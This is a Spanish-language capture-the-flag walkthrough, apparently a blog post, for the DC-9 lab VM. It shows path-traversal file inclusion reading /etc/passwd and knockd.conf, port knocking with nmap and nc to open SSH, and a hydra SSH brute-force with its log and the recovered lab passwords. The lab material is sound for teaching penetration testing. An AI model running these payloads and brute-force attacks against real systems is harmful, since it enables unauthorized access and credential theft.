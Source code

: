 ![img]({{ '/assets/images/DC9/dc9_06.png' | relative_url }}){: .center-image }*(LFI)*
---

```
http://10.0.0.151/manage.php?file=/../../../../../etc/passwd
```


![img]({{ '/assets/images/DC9/dc9_04.png' | relative_url }}){: .center-image }*(LFI)*

Que lindo, tenemos capacidad de hacer LFI sobre la VM pero ¿Que más se puede hacer?. La verdad que a esto no lo habría encontrado en un millon de años, el archivo importante a acceder es la configuración de **port knocking** que también está en `/etc`:

```console
http://10.0.0.151/welcome.php?file=../../../../etc/knockd.conf
```

![img]({{ '/assets/images/DC9/dc9_05.png' | relative_url }}){: .center-image }*(port knocking)*

Lo que muestra el archivo es que si hacemos knock en los puertos `7469`, `8475` y `9842` se debería abrir el puerto 22 de `ssh`. Hay varias formas de hacer port knocking:

```console
nmap -Pn --host-timeout 500 --max-retries 0 -p 7469 10.0.0.151 \
nmap -Pn --host-timeout 500 --max-retries 0 -p 8475 10.0.0.151 \
nmap -Pn --host-timeout 500 --max-retries 0 -p 9842 10.0.0.151
```

Pero a mi me funcionó la más atada con alambre, `nc`:

```console
pablog@Link:~/Downloads/DC9$ nc 10.0.0.151 7469
(UNKNOWN) [10.0.0.151] 7469 (?) : Connection refused
pablog@Link:~/Downloads/DC9$ nc 10.0.0.151 8475
(UNKNOWN) [10.0.0.151] 8475 (?) : Connection refused
pablog@Link:~/Downloads/DC9$ nc 10.0.0.151 9842
(UNKNOWN) [10.0.0.151] 9842 (?) : Connection refused
pablog@Link:~/Downloads/DC9$ nc 10.0.0.151 22
```
Si todo sale bien, el puerto 22 ahora responde y se puede empezar a atacarlo con los usuarios y passwords que se recolectaron.

> **``hydra -L user -P passwords 10.0.0.151 ssh -F -V -t 4``**

```console
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-24 19:33:18
[DATA] max 4 tasks per 1 server, overall 4 tasks, 289 login tries (l:17/p:17), ~73 tries per task
[DATA] attacking ssh://10.0.0.151:22/
[ATTEMPT] target 10.0.0.151 - login "marym" - pass "Pebbles" - 1 of 289 [child 0] (0/0)
[ATTEMPT] target 10.0.0.151 - login "marym" - pass "B8m#48sd" - 2 of 289 [child 1] (0/0)
[ATTEMPT] target 10.0.0.151 - login "marym" - pass "TC&TheBoyz" - 3 of 289 [child 2] (0/0)
[ATTEMPT] target 10.0.0.151 - login "marym" - pass "RocksOff" - 4 of 289 [child 3] (0/0)
[ATTEMPT] target 10.0.0.151 - login "marym" - pass "4sfd87sfd1" - 5 of 289 [child 1] (0/0)
[ATTEMPT] target 10.0.0.151 - login "marym" - pass "468sfdfsd2" - 6 of 289 [child 2] (0/0)
[ATTEMPT] target 10.0.0.151 - login "marym" - pass "3kfs86sfd" - 7 of 289 [child 0] (0/0)
---snip---
[ATTEMPT] target 10.0.0.151 - login "chandlerb" - pass "Passw0rd" - 151 of 289 [child 2] (0/0)
[ATTEMPT] target 10.0.0.151 - login "chandlerb" - pass "UrAG0D!" - 152 of 289 [child 1] (0/0)
[22][ssh] host: 10.0.0.151   login: chandlerb   password: UrAG0D!
[STATUS] attack finished for 10.0.0.151 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```
Se encuentran dos usuarios con password correctos:
* Usuario: chandlerb   password: **UrAG0D!**
* Usuario: janitor     password: **Ilovepeepee**